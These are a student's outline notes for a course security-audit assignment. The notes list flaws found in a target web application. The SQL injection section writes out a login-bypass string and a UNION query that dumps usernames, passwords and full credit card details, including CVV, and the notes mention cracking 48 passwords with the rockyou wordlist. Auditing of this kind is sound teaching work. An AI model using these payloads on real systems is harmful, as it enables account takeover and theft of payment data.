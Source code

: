 ```yaml
---
title: "ass01-security-audit"
aliases: 
tags: 
- assignment
- comp210
---
```



Jet Hughes - 9474308

# Summary of system
- function
- technology

# Flaws
## Password policy
- must have at least 5 characters and one digit.
	- not suffiecient

## SQL Injection
- can log in to admin using username: " 'or 1=1;--"
- we are able to  extract data which is displayed as the users username
- we can extract the data from the data base using this "username"
	- ' union select group_concat(username||':'||password||':'||name||':'||credit_card_number||':'||credit_card_expiry||':'||credit_card_cvv) from user as name;--
- I was able to crack 48 of the 101 passwords using the rockyou wordlist. I'm sure It would not be difficult to crack more.

## Javascript Injection


## Path traversal
## Network-Level security
## Other